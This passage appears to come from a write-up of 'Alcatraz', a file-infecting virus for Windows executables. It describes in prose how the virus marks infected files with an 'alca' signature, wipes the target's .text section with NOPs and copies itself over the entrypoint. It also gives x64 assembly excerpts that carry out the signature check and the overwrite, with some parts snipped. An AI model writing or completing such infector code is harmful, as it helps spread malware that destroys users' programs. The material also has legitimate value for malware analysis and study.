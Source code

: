 
- The first DWORD of the .text section must not be equal to 0x61636C61 ('alca'). This is a signature that Alcatraz adds during the infection phase so that an infected file can be easily recognized


```asm

	<snip>

	xor   rax, rax
	mov   eax, [rsi + 3Ch]
	add   rax, rsi
	lea   rax, [rax + 18h]
	lea   rax, [rax + 0xf0]
	lea   rax, [rax + 0xC]
	mov   eax, DWORD [ds:rax]
	add   rax, rsi
	cmp   DWORD [ds:rax], 0x61636C61			; verify signature
	jz    _freeCall

	<snip>

```


### The Infection Process
After finding a valid .exe to inject into, Alcatraz gets a pointer to the target .text section. The first DWORD of the section is overwritten with the value 0x61636C61 ('alca'). The rest of the section is padded with nops (0x90). Then the IMAGE\_OPTIONAL\_HEADER of the target is parsed until the value of the entrypoint is found. This value is added to the base address of the target in the heap and Alcatraz copies itself past that address. As a result, when the target program is launched, it "allegedly" starts executing the Alcatraz code rather than its own.


```asm

	<snip>

	xor   rax, rax
	mov   eax, [rsi + 3Ch]			
	add   rax, rsi                  ; SIGNATURE ('PE')
	lea   rax, [rax + 18h]          ; IMAGE_FILE_HEADER
	lea   rax, [rax + 0xf0]
	lea   rax, [rax + 0xC]
	mov   edi, DWORD [ds:rax]       ; *** rdi: IMAGE_SECTION_HEADER->.text[VirtualAddress] ***
	lea   rax, [rax + 4]
	mov   eax, DWORD [ds:rax]       ; *** rax: IMAGE_SECTION_HEADER->.text[size] ***
	lea   rdi, [rsi + rdi]          ; *** rdi: pointer to .text ***
	mov   rcx, rdi
	mov   rdx, rax
	xor   rax, rax
	mov   DWORD [rcx], 0x61636C61   ; write signature 'alca'
	add   rax, 4

_padTextSection:
	mov   BYTE [ds:rcx + rax], 0x90 ; pad .text section
	inc   rax
	cmp   rax, rdx
	jne   _padTextSection

	xor   rax, rax
	mov   eax, [rsi + 3Ch]
	add   rax, rsi
	lea   rax, [rax + 18h]
	lea   rax, [rax + 10h]
	mov   eax, DWORD [ds:rax]       ; *** rax: IMAGE_OPTIONAL_HEADER->AddressOfEntryPoint ***
	lea   rax, [rsi + rax]          ; *** rax: entrypoint ***
```